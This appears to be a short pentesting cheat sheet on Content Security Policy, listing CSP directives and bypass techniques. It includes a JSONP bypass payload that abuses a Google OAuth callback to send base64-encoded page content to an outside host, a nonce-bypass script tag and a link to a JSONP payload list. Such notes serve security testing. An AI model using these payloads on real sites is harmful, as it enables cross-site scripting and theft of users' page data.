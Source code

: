# Content Security Policy

Sanitize javascript code execution to limit XSS risks

## Keys
- default-src
- img-src'
- script-src
- style-src 
- report-uri
- font-src
- frame-src 
- media-src 
- object-src 


## Load the page before action
`setTimeout()` is very useful when something require the entire page to load before the code is being executed
```js
setTimeout(function(){
	//code here
},1000); //Time in ms here
```
```js
setInterval()

Function('code')
.prototype.constructor('code')
```

## Bypass JSONP : 
JSONBee has pre created payloads : https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt 

##### Endpoint
```
https://accounts.google.com/o/oauth2/revoke?callback=CODE_HERE
```
#### Example
```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location=''.concat('https://myurl.com/?c=', btoa(document.body.innerHTML));"></script>
```

## Nonce Bypass
```html
<script nonce="VALUE_HERE">alert(1)</script>
```

